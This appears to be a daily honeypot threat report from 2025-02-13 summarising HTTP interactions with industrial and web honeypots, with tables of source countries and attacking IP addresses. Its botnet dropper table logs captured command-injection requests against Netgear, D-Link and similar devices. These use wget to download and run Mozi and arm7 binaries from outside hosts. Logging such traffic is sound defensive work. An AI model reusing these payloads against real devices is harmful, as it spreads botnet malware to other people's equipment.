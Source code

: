 ```yaml
---
title: "Report: 2025-02-13 "
date: 2025-02-13
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-02-13
interaction report on http service of various Hhoneypot around the world.
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of source IP addresses](#list_of_source_ip_addresses)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| FR               | Australia          |
| FR               | Australia          |
| US               | Dubai              |
| NL               | Georgia            |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                                  |
|:---------------|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 46.19.143.26   | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F193.31.6.52%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1 |
| 117.209.27.15  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://117.209.27.15:59066/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0             |
| 115.55.220.191 | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                    |
| 59.96.140.21   | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                    |
| 39.81.208.198  | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                    |

## list_of_source_IP_addresses
|     |   number_of_occurence | remote_addr     |
|----:|----------------------:|:----------------|
|   0 |                   299 | 193.41.206.202  |
|   1 |                   286 | 193.41.206.98   |
|   2 |                    90 | 209.46.124.115  |
|   3 |                    85 | 45.148.10.90    |
|   4 |                    58 | 92.255.57.58    |
|   5 |                    55 | 193.68.89.51    |
|   6 |                    46 | 195.178.110.163 |
|   7 |                    45 | 185.60.136.37   |
